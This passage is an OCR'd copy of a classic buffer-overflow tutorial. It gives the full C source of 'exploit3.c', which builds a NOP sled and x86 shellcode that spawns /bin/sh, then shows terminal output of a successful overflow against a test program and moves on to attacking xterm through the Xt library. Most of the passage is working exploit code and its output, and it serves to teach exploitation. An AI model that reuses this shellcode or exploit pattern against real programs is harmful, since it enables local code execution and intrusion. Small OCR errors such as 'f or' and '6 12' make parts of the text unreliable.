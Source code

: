 \documentclass[10pt]{article}
\begin{document}
{The new exploits is then exploit3.c 

\begin{lstlisting}[caption=exploit3.c]
#include <stdlib.h>
#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define NOP                            0x90

char shellcode[] =
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46"
"\x07\x89\x46\x0c\xb0\x0b"
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
"\x31\xdb\x89\xd8\x40\xcd"
"\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) 
{
   __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) 
{
  char *buff, *ptr;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i;

  if (argc > 1) bsize  = atoi(argv[1]);
  if (argc > 2) offset = atoi(argv[2]);

  if (!(buff = malloc(bsize))) 
  {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_sp() - offset;
  printf("Using address: 0x%x\n", addr);
  ptr = buff;
  addr_ptr = (long *) ptr;

  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  for (i = 0; i < bsize/2; i++)
    buff[i] = NOP;

  ptr = buff + ((bsize/2) - (strlen(shellcode)/2));

  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  buff[bsize - 1] = '\0';
  memcpy(buff,"EGG=",4);
  putenv(buff);
  system("/bin/bash");
}
\end{lstlisting}

A good selection f or our buffer size is about 100 bytes more than the size of the buffer we are trying to 
overflow. This will place our code at the end of the buffer we are trying to overflow, giving a lot of space for the 
NOPs, but still overwriting the return address with the address we guessed. The buffer we are trying to overflow 
is 512 bytes long, so we'll use 6 12. Let's try to overflow our test program with our new exploit: 

\begin{verbatim}
[aleph1]$ ./exploit3 612
Using address: 0xbffffdb4[aleph1]$ ./vulnerable $EGG
$
\end{verbatim}

Whoa! First try! This change has improved our chances a hundredfold. Let's try it now on a real case of a buffer 
overflow. We'll use for our demonstration the buffer overflow on the Xt library. For our example, we'll use 
xterm (all programs linked with the Xt library are vulnerable).  You must be running an X server and allow 
connections to it from the localhost. Set your DISPLAY variable accordingly. 

}
\end{document}
